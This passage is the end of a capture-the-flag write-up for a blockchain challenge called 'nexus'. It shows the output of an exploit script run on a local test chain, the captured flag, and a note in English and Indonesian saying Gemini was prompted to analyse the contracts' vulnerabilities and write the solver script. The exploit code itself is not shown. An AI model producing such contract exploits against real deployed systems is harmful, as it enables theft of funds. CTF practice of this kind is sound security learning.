Paid: 0.000135438 ETH (135438 gas * 1 gwei)

✅ Sequence #1 on anvil-hardhat | Total Paid: 0.000401421 ETH (401421 gas * avg 1 gwei)
                                                                                

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.

Transactions saved to: /home/lasangna/ctf/bc/nexus/exploit/broadcast/ExploitScript.s.sol/31337/run-latest.json

Sensitive values saved to: /home/lasangna/ctf/bc/nexus/exploit/cache/ExploitScript.s.sol/31337/run-latest.json
```

[image here]

Flag: **`C2C{the_essence_of_nexus_is_donation_hahahaha}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Ini pengalaman pertamaku dalam mengerjakan blockchain challenge, jadi aku masih sangat awam mengenai istilah atupun cara kerja. Untuk itu aku menggunakan Gemini untuk memperlajari cara kerja sistem, menganalisa vulnerabilities dan membuat script exploit

Berikut prompt yang aku gunakan:

```
there's these files
 .
├── CrystalNexus.sol
├── Essence.sol
└── Setup.sol 

what should i analyze first
```

```
how can i get isSolved() to return true?
```

```
create solver script for this challenge
```

Disini aku banyak menggunakan bantuan dari Gemini, jadi metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan mengirimkan hasil outputnya sebagai feedback ke Gemini hinggga mendapatkan flag-nya.